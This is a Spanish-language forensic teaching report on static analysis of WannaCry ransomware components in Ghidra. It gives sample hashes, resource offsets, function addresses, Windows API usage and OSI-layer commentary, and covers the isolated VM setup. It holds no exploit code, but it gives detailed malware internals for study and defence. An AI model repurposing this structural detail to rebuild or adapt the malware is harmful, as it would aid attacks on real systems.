# Parte práctica: análisis estático de WannaCry con Ghidra y revisión offline de tráfico

## 1. Propósito y resultados disponibles

Esta parte permite estudiar cómo se pasa de un archivo a una conclusión forense defendible. Integra cuatro capítulos por componente, diagramas, fragmentos de desensamblado y las 16 transcripciones de pseudocódigo preservadas. La autoría corresponde a los ocho autores de la portada; no se atribuyen actuaciones individuales que no estén registradas.

El resultado técnico disponible combina **análisis estático seleccionado**, revisión offline de una captura de red externa y un intento de apertura en un clon aislado que la protección antimalware de Windows rechazó antes de que se observara la creación de un proceso. No se recuperó un evento del antivirus ni un identificador de detección que permita atribuir con más precisión el bloqueo a un motor o firma concreta. No hubo detonación efectiva ni impacto local atribuible a WannaCry. El PCAP externo no es del NHS; las actividades no realizadas se identifican sin presentarlas como resultados.

La secuencia de estudio es: método → identidad de los objetos → recursos y capas → lectura de cada componente → correlación de hallazgos → NIST → práctica benigna y revisión. El informe general contiene la reconstrucción histórica; esta parte explica cómo sostener las afirmaciones técnicas. Ambos documentos distinguen el NHS de Inglaterra de los archivos del laboratorio.

### Qué es WannaCry: familia, ransomware y gusano

**WannaCry** (también llamado WannaCrypt, WanaCrypt0r o WCry) es un nombre de familia/linaje para malware de Windows asociado al brote de mayo de 2017. Una familia agrupa muestras relacionadas; no es un solo archivo. El SHA-256 identifica el ejemplar exacto que se examinó. MITRE ATT&CK cataloga esos nombres relacionados como S0366. [T1; T3]

| Concepto | Explicación sencilla | Evidencia que lo respalda en este estudio |
|---|---|---|
| Ransomware | Intenta dejar los archivos inaccesibles, cifrarlos y exigir dinero para recuperarlos | Microsoft describe archivos cifrados, nota y demanda de rescate. Nuestro análisis estático no reconstruye el cifrador completo |
| Gusano (worm) | Puede buscar y propagarse a otros equipos por red sin que alguien tenga que volver a abrir cada copia | Microsoft y CISA describen la propagación usando vulnerabilidades de SMBv1. El PCAP externo muestra comunicaciones SMB del mismo hash de muestra |
| Familia | Conjunto de variantes o componentes relacionados; sus nombres no garantizan contenido idéntico | El ejemplar 24d004… se identifica por SHA-256 completo. El sitio que publicó el PCAP informa ese mismo hash para el binario lanzado en su laboratorio |

La forma breve es **ransomware con capacidad de gusano** (a veces «ransomworm»). El ransomware explica el impacto sobre archivos y la extorsión; la capacidad de gusano explica el alcance automático en red. Sus componentes pueden separar comprobación del kill switch, propagación y cifrado. No todas las fases se demuestran con el mismo artefacto, y una conversación SMB no prueba por sí sola que la explotación tuvo éxito. [T1; T3; T4]

La revisión de Wireshark descrita en 5.3 es un PCAP real de un laboratorio externo que usó el mismo hash; no es tráfico del NHS ni una detonación realizada por el equipo. Los archivos de la captura se mantienen fuera de Git.

## 2. Método forense aplicado a la práctica

### 2.1 Recolección: registrar lo que realmente se tiene

Según SP 800-86, §3.1, el trabajo comienza identificando fuentes y preservando datos relevantes. En este caso se recibieron archivos ya presentes; no se adquirieron discos de hospitales. Deben registrarse identidad, ubicación, fecha de comprobación, responsable real, herramienta y relación con el caso. Si la procedencia previa es desconocida, se escribe «no acreditada».

Los originales se conservan sin edición. La extracción de un recurso produce un derivado con identidad propia y vínculo al padre. Una transcripción de Ghidra es otro derivado analítico: su hash no es el hash del ejecutable. La evidencia local se mantiene fuera del repositorio; la publicación académica contiene explicaciones y código seleccionado para lectura.

### 2.2 Examen: separar estructura de significado

Se comprueban cabeceras y recursos antes de confiar en el nombre del archivo. Después se localizan cadenas e importaciones, se siguen referencias y se contrastan las condiciones del desensamblado con el decompilado. El examinador conserva el resultado original y anota las correcciones de tipos o nombres. No modifica bytes del binario para obtener un pseudocódigo más cómodo.

### 2.3 Análisis: demostrar una afirmación por vez

Una ficha útil contiene pregunta, observación, dirección, condición, llamadas, retorno, soporte y limitación. Por ejemplo: «la rutina lee una longitud de cuatro bytes y pasa un puntero desplazado cuatro bytes a WriteFile» es una afirmación estática comprobable. «El archivo fue escrito y cifró un hospital» añade hechos que esa observación no demuestra.

### 2.4 Informe: permitir que otra persona compruebe el razonamiento

Cada capítulo incluye un procedimiento de lectura y preguntas resueltas. La revisión colectiva debe volver al hash y a la dirección, seguir ambas ramas y contrastar la fuente. Una firma de revisión solo se agrega cuando una persona real realizó esa revisión. No se completa una cadena de custodia ficticia para mejorar la apariencia de la entrega. [NIST SP 800-86, §§3.1–3.4]

## 3. Inventario, identidad y alcance

### 3.1 Identificadores completos

| Componente | SHA-256 |
|---|---|
| 24d004… | 24d004a104d4d54034dbcffc2a4b19a11f39008a575aa614ea04703480b1022c |
| ed01… | ed01ebfbc9eb5bbea545af4d01bf5f1071661840480439c6e5babe8e080e41aa |
| u.wnry | b9c5d4339809e0ad9a00d4d3dd26fdf44a32819a54abf846bb9b560d81391c25 |
| ec1383… | ec138352c4726fa3b6706b30bf4692252f818108c8066e8518920dd9823a34bb |
| PE delimitado dentro de W/101 | 93db4b26be3a4e6b724bf85830746f458cde613ad88501bcb23d2ae1ab9976c9 |

Los prefijos abreviados son etiquetas de lectura, no sustitutos de los identificadores completos. Coincidir por SHA-256 es una comprobación de identidad de contenido con alta confianza práctica; una comparación directa byte a byte es un procedimiento distinto. El comentario heredado de una transcripción que mezcla ambos términos se conserva como antecedente y se precisa aquí.

### 3.2 Cobertura real

| Objeto | Formato | Funciones reconocidas | Transcripciones seleccionadas |
|---|---|---|---|
| 24d004… | PE32 x86 | 176 | 6 |
| ed01… | PE32 x86 | 244 | 4 |
| u.wnry | PE32 x86 | 1.070 | 3 |
| ec1383… | PE32+ x64, DLL | 265 | 3 |
| Total de estos cuatro objetos | Distintos programas | 1.755 | 16 |

El proyecto también reconoció funciones en el PE de W/101, taskdl.exe y taskse.exe. No se suman a la tabla porque no son los cuatro objetos principales de esta entrega. Una función reconocida puede corresponder a lógica propia, bibliotecas, inicialización, manejo de errores, interfaz o auxiliares; esas clases requieren validación, no se asignan solo por el nombre.

La selección prioriza decisiones relevantes y relaciones verificables. Las demás funciones siguen existiendo. «No transcrita» no significa «inútil», «no ejecutada» o «no maliciosa». Tampoco se convierte la relación 16/1.755 en porcentaje de comportamiento cubierto: las funciones tienen complejidades y caminos diferentes.

### 3.3 Relaciones de contención

| Padre y recurso | Desplazamiento en archivo | Tamaño / contenido examinado |
|---|---|---|
| 24d004…, R/1831 | 204.964 bytes | 3.514.368 bytes; coincide con ed01… |
| ed01…, XIA/2058 | 65.776 bytes | 3.446.325 bytes; paquete ZIP de 36 miembros |
| ec1383…, W/101 | 51.364 bytes | Recurso de 5.242.880 bytes; longitud inicial de 3.756.032 |
| Tramo PE de W/101 | Recurso +4 | 3.756.032 bytes; SHA-256 93db4b26… |

Los desplazamientos anteriores son offsets de archivo documentados en la extracción. Las direcciones de funciones de Ghidra son direcciones virtuales del programa importado. No se intercambian ambos valores. El resto del recurso W/101, fuera de los cuatro bytes iniciales y la longitud declarada, no integra el PE delimitado.

## 4. Capas OSI, componentes y operaciones de Windows

### 4.1 Bytes, formato PE y recursos

Un byte representa ocho bits. Hexadecimal permite escribir un byte con dos dígitos. PE es un formato de ejecutable de Windows que organiza cabeceras, secciones y directorios. La extensión del nombre no decide si es una DLL: hay que consultar la estructura. Un recurso PE es contenido incorporado que el programa puede localizar por tipo e identificador.

**W/101** significa «tipo W, identificador 101». La barra es notación del informe, no una carpeta, un puerto ni una división. 0x65 equivale a 101; 0x727 a 1831; 0x80a a 2058; 0x100 a 256; 0x1bd a 445. W y XIA son nombres de tipo elegidos en el archivo; no prueban por sí solos el formato de los datos.

Un DWORD ocupa cuatro bytes. En little-endian, el byte menos significativo aparece primero: `00 01 00 00` representa 256. Si un puntero tiene tipo DWORD*, sumarle uno avanza cuatro bytes. Si fuera un puntero a byte, sumarle uno avanzaría un byte. Por eso la aritmética del tipo debe contrastarse con el desplazamiento del desensamblado.

### 4.2 Cadenas, importaciones y referencias

Una cadena es un dato textual, no una acción. Una importación indica que el binario puede recurrir a una API; algunas APIs se resuelven dinámicamente con GetProcAddress y aparecen como llamadas indirectas. Una referencia cruzada enlaza una instrucción o dato con otro elemento. Seguirla permite mostrar cómo se utiliza una cadena y cuáles son las condiciones para alcanzar su uso.

Una ruta `C:\WINDOWS\mssecsvc.exe` explica un destino previsto. No demuestra que el archivo exista. Una referencia al nombre TaskStart indica búsqueda de un símbolo o destino; la instrucción `CALL EAX` indica una llamada indirecta al valor del registro. Ninguna revela, por sí sola, el cuerpo completo de la carga siguiente.

### 4.3 Desensamblado: instrucciones y saltos

El Listing muestra instrucciones recuperadas a partir de bytes. `MOV` mueve datos; `CALL` transfiere control a una rutina; `TEST` afecta indicadores de la CPU según una operación lógica; `JZ` y `JNZ` seleccionan caminos según el resultado. En `TEST EDI,EDI`, un valor cero activa la condición de cero. `JNZ` toma la salida cuando el resultado no es cero.

En x86 pueden verse argumentos colocados en la pila; en Windows x64 los primeros argumentos enteros o punteros se suelen observar en RCX, RDX, R8 y R9. Esto orienta la lectura, pero debe contrastarse con el convenio concreto y el prototipo. Un fragmento de Listing aislado no equivale al análisis completo de todos sus predecesores.

### 4.4 Decompilado: representación interpretativa

El Decompiler propone una representación semejante a C. `undefined4` indica cuatro bytes cuyo tipo semántico no se recuperó de manera más precisa; no significa «virus desconocido». `FUN_`, `DAT_` y `LAB_` son etiquetas automáticas comunes de función, dato y ubicación. Variables como `iVar1` son nombres generados, no los nombres del código fuente original.

Los errores de tipo afectan la lectura: un entero mal interpretado como puntero puede deformar parámetros. En 00407ce0 y 004014a6 hay limitaciones documentadas. Se conservan las transcripciones y se contrasta el Listing, sin reescribirlas para compilarlas. El propósito es comprender los caminos y su soporte, no reconstruir un ejecutable funcional.

### 4.5 Retorno, parámetro de salida y efecto

Un retorno de cero no tiene un significado universal. `memcmp == 0` expresa igualdad; un handle NULL puede indicar fallo; una rutina propia puede devolver cero tanto tras éxito como tras fallo. Una API puede devolver éxito y escribir otro resultado en un parámetro de salida. Finalmente, solicitar un proceso no acredita que terminara ni que alcanzara su objetivo. [API1–API4]

Estas distinciones explican buena parte del análisis: seguir solo el nombre de una función o su último return lleva a conclusiones incorrectas. Los cuatro capítulos muestran casos concretos.

### 4.7 Cómo leer los diagramas BPMN de los capítulos

Los diagramas son BPMN didáctico reconstruido desde el código estático, no una traza de ejecución. El rectángulo grande es la **piscina** del participante; cada barra interior es un **carril** que separa partes del trabajo, por ejemplo, decisión del programa y API de Windows. Las flechas continuas muestran la secuencia que permiten las instrucciones, incluso cuando cruzan de un carril al otro. Los círculos finos marcan entradas; los círculos dobles, una salida o retorno. Los rectángulos redondeados son tareas o llamadas y los rombos son compuertas exclusivas (XOR): en cada ejecución se toma una sola salida según la condición escrita.

La etiqueta sobre cada flecha explica el resultado que abre esa ruta, por ejemplo «sí: handle NULL». Un **handle** es un valor que Windows devuelve para que el programa identifique un objeto abierto; NULL o `INVALID_HANDLE_VALUE` son condiciones diferentes y la rutina comprueba la que corresponde a cada API. El `retorno 0/1` es el valor devuelto por esa función y no necesariamente el éxito de la operación anterior. Los diagramas amplios se colocan en página apaisada completa para que se puedan leer impresos.

Las compuertas nombran el dato comprobado, no solo «sí/no»: `argc < 2`, referencia no nula, atributos válidos o tamaño mayor que cero. «Pasa» significa que el código continúa por esa rama; no que la acción externa se completó. Los cotejos de CRC, longitud y SHA-256 que hace el analista se explican en el texto por separado y no forman parte de la secuencia del malware. Las llamadas asíncronas (`wait = 0`) tampoco garantizan que la tarea solicitada haya terminado antes de la siguiente instrucción.

### 4.6 La pregunta central: qué hace, cómo lo hace y qué ocurre después

Para explicar WannaCry se necesitan tres vistas complementarias: **la comunicación entre equipos**, **la organización de sus componentes** y **las operaciones dentro de Windows**. OSI organiza la primera; los recursos PE y las llamadas entre funciones explican las otras dos. No existe una correspondencia de una función del malware con cada una de las siete capas. Tampoco las siete capas describen siete etapas cronológicas de la infección.

En esta revisión, «observado en el código» significa encontrado en las transcripciones y el Listing conservados del 15/11/2026. No significa ejecutado. «Histórico» procede de fuentes del incidente; «esperable» describe un artefacto que habría que adquirir y comprobar. No se capturaron paquetes en una ejecución local ni se obtuvieron registros de un hospital. La sección 5.3 de la parte práctica analiza un PCAP externo de laboratorio con el mismo SHA-256 de muestra; ese archivo no es tráfico del NHS.

La exposición utilizará esta secuencia para cada mecanismo: **entrada → condición → API y recurso → efecto solicitado → siguiente llamada → evidencia necesaria**. Cuando falte el cuerpo de una auxiliar, se señalará esa frontera. El objetivo es explicar una relación causal comprobable, incluyendo sus posibles fallos. Para el trabajo forense, cada afirmación debe quedar vinculada a adquisición/preservación, examen, análisis e informe, conforme a SP 800-86. El CSF 2.0 se usa después para discutir resultados de gestión del NHS; no clasifica funciones del malware ni sustituye el análisis de evidencia.

### 4.7 Las siete capas OSI contrastadas con el caso

El modelo de referencia separa aplicación, presentación, sesión, transporte, red, enlace y física. Sirve para ordenar responsabilidades de comunicación; no es la especificación de implementación de Windows ni una metodología de investigación forense. La definición conceptual siguiente se apoya en X.200, cláusulas 6 y 7; la aplicación al código es una interpretación del presente estudio. [OSI1]

| Capa y responsabilidad conceptual | Función/protocolo relacionado | Recursos y datos que intervienen | Evidencia y límite de la afirmación |
|---|---|---|---|
| 7. Aplicación: servicios y mensajes entre aplicaciones | HTTP para la consulta del kill switch; SMB para la propagación histórica | URL, datos de solicitud/respuesta y servicios WinINet/SMB | 00408140 llama a InternetOpenUrlA. El uso de SMBv1 se sustenta en fuentes técnicas y una captura externa de laboratorio; no hay captura local ni tráfico hospitalario |
| 6. Presentación: representación de datos intercambiados | No se identificó una operación específica de presentación de red en las 16 funciones | En una comunicación podrían intervenir formatos y transformaciones; aquí ZIP, DWORD y datos cifrados son objetos locales | El paquete y el cifrado de archivos no prueban presentación OSI. No se identificó una negociación de formato ni TLS en el material seleccionado |
| 5. Sesión: organización del diálogo entre aplicaciones | No se reconstruyó una sesión de protocolo completa | Estado de diálogo que mantuviera el protocolo, si corresponde | El nombre `session` en el código WinINet no es evidencia suficiente. No hay traza para mostrar apertura, continuidad y cierre de una sesión de WannaCry |
| 4. Transporte: comunicación extremo a extremo | TCP transportaría HTTP y SMB directo; el puerto 445 identifica el extremo SMB | Socket, puerto, estado TCP, buffers y handles de red | 00407480 contiene 0x1bd (=445) y llamadas WS2_32 por ordinal. Faltan prototipos y flujo de datos para reconstruir la conexión completa; el PCAP externo se limita a su laboratorio |
| 3. Red: direccionamiento y encaminamiento | IP llevaría paquetes entre redes según el alcance disponible | Direcciones IP, rutas, interfaces y paquetes | No hay captura del NHS para afirmar su origen/destino, rutas ni secuencia de exploración. El PCAP externo tiene IP de su propia LAN de prueba; la dirección destino de la rutina local requiere reconstruir llamadores |
| 2. Enlace: transferencia por el enlace local | Ethernet, Wi-Fi u otro enlace sería gestionado por el sistema y el adaptador | Interfaz, tramas, direcciones MAC y, según entorno, VLAN | No se conocen MAC, VLAN ni tecnología de cada hospital a partir de estos binarios. No se observa manipulación del enlace |
| 1. Física: transmisión de señales por el medio | Cable, radio u otro medio llevaría las señales de la comunicación | Adaptador y medio físico disponibles | No se observa modificación de hardware ni del medio. Esta capa es infraestructura del entorno, no una acción atribuida a estas funciones |

**Capa 7: distinguir dos conversaciones.** La consulta del kill switch y la propagación SMB cumplen objetivos diferentes. En 24d004…, 00408140 solicita abrir una URL HTTP y utiliza el resultado para decidir si llama a 00408090. La propagación mediante vulnerabilidades de SMBv1 corresponde a la explicación técnica publicada en 2017. El boletín MS17-010 describe correcciones del manejo de solicitudes de SMBv1; no describe una vulnerabilidad del número 445. [RED2; HIST1]

**Cómo sucede la consulta.** La función prepara texto en memoria, obtiene un contexto de WinINet y llama a InternetOpenUrlA. Windows gestiona los servicios subyacentes necesarios. El código seleccionado recibe un handle o NULL; no interpreta manualmente cada capa ni comprueba un estado HTTP 200. El handle es una referencia administrada por la API, no un paquete ni una dirección IP. La rama NULL llama a la preparación; la rama no nula evita esa llamada. [API1; capítulo 6]

Si hiciera falta resolver el nombre del dominio, habría que comprobar cómo se obtuvo la dirección. Una consulta DNS en la red no se deduce necesariamente de la URL: puede intervenir información ya disponible en el sistema. DNS sería un protocolo de aplicación; que produzca direcciones IP no lo convierte en capa 3. No se contacta el dominio para este estudio.

**Capas 6 y 5: lo que no está demostrado también se explica.** Una representación little-endian, una cadena ASCII o un ZIP dentro de un PE son formatos de datos locales. Eso no acredita una negociación de representación entre equipos. El cifrado de documentos transforma datos almacenados; clasificarlo automáticamente como capa 6 confundiría almacenamiento con comunicación. Tampoco se debe inventar TLS para esta URL HTTP ni atribuirle una sesión autenticada que no aparece en la evidencia. El contexto llamado session en el decompilado de WinINet no acredita por sí solo la capa 5. Las sesiones que un protocolo como SMB pueda gestionar deben estudiarse dentro de ese protocolo, sin convertir el modelo OSI en una correspondencia literal entre nombres.

**Capa 4: el puerto ayuda a formular la hipótesis.** La asignación oficial de SMB sobre transporte TCP directo es 445, equivalente hexadecimal a 0x01bd. [RED1] En 00407480 aparece esa constante, junto a un parámetro dividido en dos mitades y llamadas por ordinal. Es un indicio estático consistente con una rutina de conexión, pero los argumentos recuperados son imperfectos. El paso pendiente es identificar los símbolos de WS2_32, corregir prototipos en una copia del proyecto y contrastar la estructura de destino en Listing. No se presentará como reconstrucción completa del exploit.

Una comunicación TCP hacia 445 no demostraría por sí sola SMB malicioso. Para distinguir conexión intentada, conexión establecida, intercambio SMB y explotación harían falta evidencias diferentes. El contenido de los mensajes y el efecto en el equipo receptor importan tanto como el puerto. Este informe no incluye paquetes de explotación ni un procedimiento de propagación.

**Capa 3: destino y alcance.** Para una comunicación IP real habría que identificar origen, destino, rutas y contexto temporal. El parámetro de 00407480, sin reconstruir todos sus llamadores, no demuestra qué direcciones se recorren ni su orden. El alcance entre subredes depende también de rutas y controles del entorno. No se deduce una topología del NHS leyendo una función local.

**Capas 2 y 1: soporte, no acciones especiales demostradas.** Una comunicación externa necesita una interfaz y un medio disponibles. Eso no implica que WannaCry reprogramara una tarjeta, atacara una MAC o alterara cables. Tampoco hay evidencia aquí de suplantación de enlace. Las tramas o señales concretas requerirían información del entorno y adquisición apropiada. En la copia aislada del equipo se deshabilitaron los adaptadores; no hay observación local de propagación. La captura externa se examina por separado y describe su propia LAN de prueba.



### 4.8 Dos recorridos que el expositor debe separar

**Recorrido de red, conceptual.** Una aplicación solicita una comunicación; el sistema utiliza transporte, direccionamiento y enlace para entregar datos, si el entorno lo permite. El receptor procesa los datos con su pila y su servicio. Para SMB, debe distinguirse el servicio que interpreta mensajes de la conexión TCP que los transporta. El defecto corregido por MS17-010 está en el manejo de solicitudes SMBv1. Las capas inferiores permiten llegar al servicio; no son todas vulnerabilidades independientes. [RED2]

**Recorrido dentro del equipo, comprobable estáticamente.** En el camino seleccionado de 24d004…, una decisión precede a la preparación de servicio y extracción. R/1831 contiene ed01…; ed01… contiene el ZIP XIA/2058 con u.wnry y t.wnry. Las funciones solicitan operaciones sobre esos datos. Contener un hijo no significa que ya se haya ejecutado; escribir un archivo no significa que el proceso haya iniciado; iniciar un proceso no significa que su objetivo haya terminado.

El cifrado masivo y el impacto hospitalario pertenecen a la reconstrucción técnica e histórica contrastada. La selección local llega hasta una llamada indirecta asociada a TaskStart, sin recuperar todo el cuerpo de la carga transformada. Esa discontinuidad debe quedar visible al pasar de las funciones al relato del NHS. ec1383… se explica como una vía de extracción distinta: su PE interno tiene otro hash y no se une a 24d004… mediante una flecha de identidad.

### 4.9 Qué significa «recursos que toma»

**Recurso PE:** un bloque incorporado al ejecutable, localizado por módulo, tipo e identificador. R/1831, XIA/2058 y W/101 son pares tipo/ID. No son rutas web, puertos ni capas OSI. W/101 significa «tipo W, identificador 101»; 101 decimal se escribe 0x65 en hexadecimal. FindResourceA localiza el recurso; LoadResource y LockResource permiten acceder a sus datos. Ninguna de esas llamadas ejecuta por sí misma el bloque. [API2]

**Recurso del sistema:** un objeto o capacidad usado durante una operación: archivo, memoria, proceso, hilo, token de seguridad, servicio o conexión. Un handle permite referirse a uno de esos objetos mediante la API adecuada. Cerrar el handle libera esa referencia; no equivale siempre a borrar un archivo, detener un servicio o terminar un proceso.

| Recurso | Dónde se ve y para qué sirve | Qué medir o comprobar si se dispusiera de evidencia dinámica |
|---|---|---|
| Memoria del proceso | Buffers de texto, estructuras, punteros a recursos; GlobalAlloc en 004014a6 | Región, tamaño y vida de las asignaciones; un tamaño de archivo no es el consumo total de RAM |
| CPU | Copias, comparaciones, bucles y llamadas | Tiempo y utilización por proceso/hilo. No hay medición de consumo del malware en esta práctica |
| Disco y sistema de archivos | CreateFile, WriteFile, lectura de t.wnry y extracción de miembros | Existencia, contenido, hash, metadatos y resultado de escritura; espacio usado realmente |
| Procesos e hilos | CreateProcessA y estructuras de salida | Identidad del padre/hijo, ruta, argumentos, token, inicio y finalización |
| Servicios | OpenSCManager, CreateService y StartService | Configuración, permisos y estado del servicio; un nombre en una cadena no acredita instalación |
| Token y SID | CheckTokenMembership en u.wnry | Contexto de seguridad efectivo y resultado de consulta/elevación; no confundir usuario con privilegios efectivos |
| Red | WinINet y WS2_32 | No hay captura propia correlacionada con proceso; se revisó un PCAP externo sin telemetría del host |

**Cantidades conocidas, no estimaciones de rendimiento.** R/1831 mide 3.514.368 bytes y coincide con ed01…. XIA/2058 contiene un ZIP de 3.446.325 bytes con 36 miembros. W/101 mide 5.242.880 bytes, pero su DWORD inicial delimita 3.756.032 bytes a partir de +4. t.wnry mide 65.816 bytes. Son medidas estáticas de contenido. No se suman para calcular RAM ni disco de una infección: hay datos anidados, asignaciones no reconstruidas y operaciones cuyo éxito no se observó.

### 4.10 Cómo demostrar el «cómo» en Ghidra

1. Identificar el programa por SHA-256 y arquitectura. Una dirección solo tiene sentido junto con el programa: diferentes componentes pueden reutilizar direcciones parecidas.
2. Ir a la dirección de la ficha y mostrar Listing y Decompiler del mismo tramo. El Listing representa instrucciones; el C recuperado propone estructuras, tipos y variables para leerlas.
3. Señalar la entrada real: argumento, variable global, recurso, archivo o retorno de otra función. Seguir su referencia hasta la operación que la consume.
4. Señalar la condición y sus dos caminos. En 00408140, TEST/JNZ y la llamada a 00408090 confirman el sentido de la decisión. Una llamada no alcanzada no produce el efecto solicitado.
5. Explicar los argumentos de la API, el objeto afectado y el resultado que se comprueba. Si el prototipo es imperfecto, mostrar el Listing y declarar qué interpretación queda pendiente.
6. Seguir el llamador: qué hace con el retorno y cuál es el siguiente paso. Si ignora el resultado, explicarlo expresamente. Un nombre descriptivo añadido por el analista no sustituye esta comprobación.
7. Separar la conclusión estática del artefacto necesario para demostrar ejecución. Registrar hash, dirección, fuente, razonamiento y límite conforme al método SP 800-86.

En x86, los PUSH de los ejemplos ayudan a reconstruir argumentos; en el ejemplo x64 de W/101, EDX contiene 0x65 y R8 apunta al tipo W antes de FindResourceA. No se intercambian convenios entre arquitecturas. En el puntero DWORD* de ec1383…, sumar 1 avanza cuatro bytes: el Listing muestra explícitamente +4. Estos dos ejemplos permiten explicar el código sin memorizar nombres automáticos como pDVar2.

**Frase de comprobación para la defensa:** «En este componente y esta dirección observo esta entrada; la condición lleva a esta API sobre este recurso; el código continúa de esta forma. Para afirmar que ocurrió realmente necesitaría este artefacto». La sección 13 aplica esta estructura a preguntas del docente.

### Fuentes del enfoque OSI

[OSI1] Unión Internacional de Telecomunicaciones. (1994). *X.200: Modelo de referencia básico de interconexión de sistemas abiertos*. Texto equivalente a ISO/CEI 7498-1; cláusulas 6–7. [Ficha oficial y PDF en español](https://www.itu.int/rec/T-REC-X.200-199407-I/en).

[RED1] Microsoft. (2025, 7 de abril). *[MS-SMB], 1.9 Standards Assignments*. Asignación de TCP/445 (0x01BD). [Especificación oficial](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-smb/acc6e3bd-3aba-42be-b15f-99397399ab51).

[RED2] Microsoft. (2017, 14 de marzo). *Microsoft Security Bulletin MS17-010*. [Boletín oficial](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010).

[HIST1] Microsoft Defender Security Research Team. (2017, 12 de mayo). *WannaCrypt ransomware worm targets out-of-date systems*. [Análisis técnico contemporáneo](https://www.microsoft.com/en-us/security/blog/2017/05/12/wannacrypt-ransomware-worm-targets-out-of-date-systems/).

Fuentes web anteriores consultadas el 21/11/2026. Las referencias API1–API4 están al final de la parte práctica. El mapeo OSI es explicativo y no añade observaciones de ejecución a las exportaciones conservadas.


## 5. Entorno de laboratorio y herramientas

<!-- ESTADO_LAB: el generador incorpora el estado comprobado desde estado_laboratorio.md. -->

### Estación existente incorporada el 20 de noviembre

El usuario confirmó disponer de una VM llamada «Windows 10» y autorizó usar una
copia aislada. La original estaba apagada, con un adaptador NAT, otro puente y
comparticiones globales del perfil habitual. Se realizó una clonación completa,
sin arrancar la original, hacia `local/vms/forense-nhs-win10-copia/`.

La copia se registró en el perfil VirtualBox e IPC privados del proyecto. Antes
del primer arranque se desactivaron los ocho adaptadores, portapapeles,
transferencia de archivos por portapapeles, arrastrar/soltar, USB y VRDE. Se retiró
la ISO de instalación de la copia y se conectó el DVD de herramientas ya existente.
Se creó el snapshot `aislada-antes-de-practica` antes de arrancar.

Se observó el escritorio y se abrió winver: **Windows 10 Pro, versión 1903,
compilación 18362.356**. Las capturas originales quedan en el expediente local,
fuera de Git. Este resultado acredita un sistema instalado en la copia; no una
instalación nueva realizada por el equipo ni una evaluación de sus parches,
licencia, limpieza o herramientas. No se ejecutó WannaCry.

| Objeto | Estado y uso |
|---|---|
| Windows 10, registro habitual | Original conservada; no utilizarla directamente para el caso |
| forense-nhs-win10-copia | Copia aislada con Windows observado; estación para lectura y ejercicios benignos |
| forense-nhs-win10 | VM vacía anterior, conservada y administrada con `./lab` |
| DVD de herramientas | Imagen anterior de 57 archivos; no incorpora automáticamente esta entrega |
| DVD de lectura de esta edición | `local/entrega-nist-lectura.iso`, medio separado con los documentos nuevos |

La copia conserva 4 CPU y 4 GiB de RAM del origen. Se comprobó su estado
apagado tras solicitar el cierre normal desde Windows; los registros permanecen
locales y la síntesis se incluye en `docs/verificacion.md`.
Las herramientas descargadas todavía requieren validación dentro de ese Windows.
El arranque del sistema no sustituye esa prueba.

Para comprobar y abrir la copia desde el anfitrión:

```bash
python3 scripts/check_isolation.py forense-nhs-win10-copia
./scripts/vbox-lab.sh showvminfo forense-nhs-win10-copia
./scripts/vbox-lab.sh startvm forense-nhs-win10-copia --type gui
```

El tercer comando inicia la copia: usarlo solo tras una comprobación correcta.
En el Explorador de Windows, abrir «Este equipo» y el DVD con etiqueta
`NHS_ESTUDIO`; contiene los dos PDF y Word. La letra de unidad puede variar.
La imagen se preparó y comprobó en el anfitrión y se conectó a la copia; no se
declara comprobada la apertura de los informes dentro del invitado.
Para abrir el administrador del registro aislado se puede utilizar
`./scripts/vbox-lab.sh --gui`. `./lab status` sigue consultando la VM vacía
anterior; no debe confundirse su estado con el de la copia. La copia no se adoptó
en los metadatos de Vagrant ni se cambió el significado de la box inicial.

La verificación posterior a esta preparación dio **18 pruebas correctas**, validó
el Vagrantfile y aprobó el aislamiento real tanto de la VM vacía como de la copia.
Esta comprobación evalúa configuración del hipervisor; no certifica ausencia de
escapes o contaminación previa. No se habilitaron comunicaciones para instalar
herramientas ni se distribuyeron discos o datos personales.

### Actualización: práctica benigna realizada

